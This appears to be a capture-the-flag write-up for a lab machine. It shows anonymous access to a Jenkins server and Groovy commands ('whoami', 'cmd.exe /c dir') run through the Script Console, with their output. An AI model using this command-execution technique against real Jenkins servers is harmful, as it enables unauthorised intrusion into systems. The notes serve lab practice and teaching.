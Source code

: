 Testing out 10.10.10.63:50000/askjeeves
Discovered, anonymous access, navigated to Manage Jenkins
Clicked Script Console -

Type in an arbitrary Groovy script and execute it on the server. 
Useful for trouble-shooting and diagnostics. 
Use the ‘println’ command to see the output (if you use System.out, it will go to the server’s stdout, which is harder to see.) Example:

println(Jenkins.instance.pluginManager.plugins)

All the classes from all the plugins are visible. jenkins.*, jenkins.model.*, hudson.*, and hudson.model.* are pre-imported.

## Groovy Script Testing

### Simple WHoami
```
cmd = "whoami"
println cmd.execute().text

Result

jeeves\kohsuke
```	
### Running deeper directory traversal
```
cmd = "cmd.exe /c dir"
println cmd.execute().text
 
Result

 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\.jenkins

05/27/2018  03:12 PM    <DIR>          .
05/27/2018  03:12 PM    <DIR>          ..
05/27/2018  05:27 PM                48 .owner
05/27/2018  03:00 PM             1,756 config.xml
05/27/2018  02:46 PM               156 hudson.model.UpdateCenter.xml
05/27/2018  03:12 PM             1,178 hudson.plugins.emailext.ExtendedEmailPublisher.xml
11/03/2017  10:43 PM               374 hudson.plugins.git.GitTool.xml
11/03/2017  10:33 PM             1,712 identity.key.enc
11/03/2017  10:46 PM                94 jenkins.CLI.xml
12/24/2017  03:35 PM            75,276 jenkins.err.log
11/03/2017  10:47 PM           360,448 jenkins.exe
11/03/2017  10:47 PM               331 jenkins.exe.config
05/27/2018  02:47 PM                 4 jenkins.install.InstallUtil.lastExecVersion
11/03/2017  10:45 PM                 4 jenkins.install.UpgradeWizard.state
11/03/2017  10:46 PM               138 jenkins.model.DownloadSettings.xml
12/24/2017  03:38 PM             2,688 jenkins.out.log
05/27/2018  02:45 PM                 4 jenkins.pid
11/03/2017  10:46 PM               169 jenkins.security.QueueItemAuthenticatorConfiguration.xml
11/03/2017  10:46 PM               162 jenkins.security.UpdateSiteWarningsConfiguration.xml
11/03/2017  10:47 PM        74,271,222 jenkins.war
05/27/2018  02:45 PM            34,147 jenkins.wrapper.log
11/03/2017  10:49 PM             2,881 jenkins.xml
11/03/2017  10:33 PM    <DIR>          jobs
11/03/2017  10:33 PM    <DIR>          logs
05/27/2018  02:47 PM               907 nodeMonitors.xml
11/03/2017  10:33 PM    <DIR>          nodes
11/03/2017  10:44 PM    <DIR>          plugins
```